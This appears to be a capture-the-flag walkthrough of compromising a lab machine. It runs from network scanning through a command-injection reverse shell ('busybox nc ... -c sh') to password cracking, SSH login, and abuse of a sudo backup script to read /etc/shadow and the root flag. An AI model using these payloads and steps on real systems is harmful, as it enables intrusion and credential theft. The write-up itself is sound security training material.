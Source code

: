 ```yaml
---
share_link: https://share.note.sx/vpq8adns#t/gAJNKAhzqmaaMGJV9IxzoDS/92dQtJOEk66s5b1ng
share_updated: 2025-05-09T18:25:48+05:30
---
```



---

###  Step 1: Reconnaissance – Identifying the Target

We start by scanning the local network to identify live hosts using `arp-scan`:

```bash
sudo arp-scan --local
```

![[Pasted image 20250503150537.png]]

This reveals our target machine with the IP: **192.168.112.232**

---

###  Step 2: Port Scanning – What’s Open?

A quick port scan using `nmap` shows which services are running:

```bash
nmap 192.168.112.232
```

![[Pasted image 20250503150558.png]]

We see that **ports 22 (SSH)** and **80 (HTTP)** are open.

Now, let's do a deeper service and version scan on these ports:

```bash
nmap 192.168.112.232 -p22,80 -sCV
```

![[Pasted image 20250503150621.png]]

This reveals:

- **Port 80** is running Apache (suggesting a web server is hosted)
    
- **Port 22** is running OpenSSH
    

---

###  Step 3: Web Exploitation – Gaining Foothold

Navigating to the website reveals a form input vulnerable to **command injection**. By injecting a command like:

```bash
;busybox nc 192.168.112.156 9999 -c sh
```

![[Pasted image 20250503150445.png]]

We trigger a reverse shell connection to our attacker machine. Boom — we get a shell back as **www-data**, the web server user.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
to stabilize the shell session for better interactivity and command execution

![[Pasted image 20250507222054.png]]


---

###  Step 4: File Looting – Extracting User Data

While poking around the web server, we find a file named `users.db`. We host a Python web server on our attacker machine to download the file:

```bash
python3 -m http.server
```


Once downloaded, we analyze the contents — it contains **SHA256crypt** hashed passwords.

![[Pasted image 20250503150813.png]]

We crack the hash using an online cracking tool (`hash.traboda.net`) and recover:

> **Cracked password:** `secretpass123`



---

### Step 5: Lateral Movement – Switching Users

We try the cracked password with an existing user and successfully log in as **devuser** via SSH.

![[Pasted image 20250507215908.png]]

---

##  Step 6: Privilege Escalation – Getting Root

Now logged in as `devuser`, we check for potential privilege escalation paths using:

```bash
sudo -l
```

> 🔎 `sudo -l` lists all the commands the current user can run using `sudo`. This helps identify any scripts or binaries the user can execute as root without a password.

![[Pasted image 20250503152540.png]]

We find:

```bash
User devuser may run the following commands on corpnet:
  (ALL) NOPASSWD: /usr/local/bin/backup.sh
```

This means `devuser` can run the script `/usr/local/bin/backup.sh` as **root**, without needing a password.

---

#### Analyzing `backup.sh`

```bash
#!/bin/bash
# Usage: ./backup.sh <filename>

if [ $# -eq 0 ]; then
  echo "Please provide a filename to backup"
  exit 1
fi

BACKUP_FILE="/tmp/backup_$(date +%F_%T)"
cp "$1" "$BACKUP_FILE"
chown devuser:devuser "$BACKUP_FILE"
chmod 644 "$BACKUP_FILE"
```

This script blindly copies any file passed to it, as **root**, and then changes the ownership to `devuser`, effectively allowing access to protected files.

####  Exploiting It

We can use this to read sensitive root-only files. For example:

```bash
sudo /usr/local/bin/backup.sh /etc/shadow
```

![[Pasted image 20250507220110.png]]

This copies `/etc/shadow` to a readable file in `/tmp`. From there, we attempt to crack the root password — but the cracking failed.

---

### 🏁 Capturing the Flag

Instead of cracking the root password, we go for the flag directly:

```bash
sudo /usr/local/bin/backup.sh /root/flag.txt
```

![[Pasted image 20250507220324.png]]

We then read the file:

```bash
cat /tmp/backup_2025-05-07_22:02:04
```

![[Pasted image 20250507220400.png]]

🎉 Flag captured!

